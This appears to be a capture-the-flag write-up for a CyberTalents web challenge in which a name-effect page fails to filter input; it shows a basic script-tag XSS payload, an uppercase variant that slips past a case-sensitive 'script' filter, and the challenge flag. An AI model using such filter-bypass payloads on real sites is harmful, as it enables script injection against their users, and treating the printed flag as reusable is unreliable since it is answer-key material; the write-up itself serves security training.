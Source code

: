 # CyberTalents
## Web Security

### Challenge Name:
 [*Cool Name Effect*](https://cybertalents.com/challenges/web/cool-name-effect)
 
### Challenge Description
Webmaster developed a simple script to do cool effects on your name, but his code not filtering the inputs correctly execute javascript alert and prove it.


Link: [http://34.77.37.110/cool-effect/](http://34.77.37.110/cool-effect/)

### Answer
* Try inject javascript code in the textbox
```
<script>alert()</script>
```
* The result was "<forbidden>alert()" which mean he filtered "script" so try in another word
```
<SCRIPT>alert()</SCRIPT>
```
* You got the Flag!!


### The Flag
 > ciyypjz
